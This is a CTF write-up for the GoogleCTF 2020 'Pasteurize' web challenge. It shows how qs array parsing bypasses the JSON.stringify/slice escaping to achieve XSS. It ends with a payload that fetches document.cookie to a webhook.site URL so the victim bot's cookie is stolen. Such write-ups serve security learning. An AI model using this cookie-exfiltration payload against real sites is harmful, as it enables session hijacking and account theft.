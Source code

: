 ```yaml
---
title: "GoogleCTF 2020: Pasteurize"
date: 2020-08-23T17:35:14-06:00
draft: false
comments: false
images:
tags:
    - writeup
    - web
    - xss
---
```


This is the first challenge I worked on. I will soon upload a post on the second one. (As GoogleCTF 2020 ended on the day of this post, I will be omitting the flag from this article. I will update it once enough time has passed.)

## Let's Begin!

The challenge lets us load into the DOM whatever we want through this pastebin-esque function.

When you make a note, you have an option to share it with a "TjMike" Entity. Sign of XSS/CSRF attacks?

Looking into the HTML, whatever content we put into the note is immediately shoved into a javascript string. However, if you try to input quotation marks in there, the DOMpurify clean function escapes it. So, if we can get an unescaped quote in there, we can do whatever want. Let's focus on the comment.

{{< image src="/images/google2020source.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Going to the ``/source`` endpoint takes us, well, directly to the webpage's app file. 

Of note are the app's use of using the Express BodyParser to operate on 'extended' mode (using the `qs` library instead of the `querystring` library).

{{< image src="/images/Google2020bodyparser.png" alt="Login" position="center" style="border-radius: 8px;" >}}

In the source we also see:

{{< image src="/images/google2020json.png" alt="Login" position="center" style="border-radius: 8px;" >}}

``JSON.stringify(unsafe)`` - if our content (unsafe) is a string, then the function simply adds additional quotation marks onto the string, and the ``slice(1,-1)`` function removes those extra quotations, before feeding it to the DOM to be rendered. What if our input isn't a string - what if it's an array? 

The [``qs``](https://www.npmjs.com/package/qs#parsing-arrays) library allows arrays to be parsed from HTTP requests if theyre stipulated as:

```
{
    array[]=a&array[]=b

    //array = [a,b]
}
```

When we make a note (POST request to ``/note``), intercept the request via burpsuite. Modify your query there. Change ``content=`` to ``content[]=`` (Alternatively, you can CURL your request to not deal with proxy settings).


{{< image src="/images/google2020pastalert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/google2020xss.png" alt="Login" position="center" style="border-radius: 8px;" >}}

If we go to the page, we see that an alert is prompted - aka, we have succesfully escaped the JS string and can write javascript code as normal. That being said, let's go ahead and craft a payload to xss TJMike (I am being lazy and reusing an old payload of mine from before and modifying it).

```
content[]=; document.getElementById('note-content').onLoad = fetch('https://webhook.site/64627794-30a4-466d-b93a-537bdebca744', {method:'POST', body:JSON.stringify({data:document.cookie})});const uwu = 
```

Share our note to TJMike. Wait for our server to grab their cookie. 
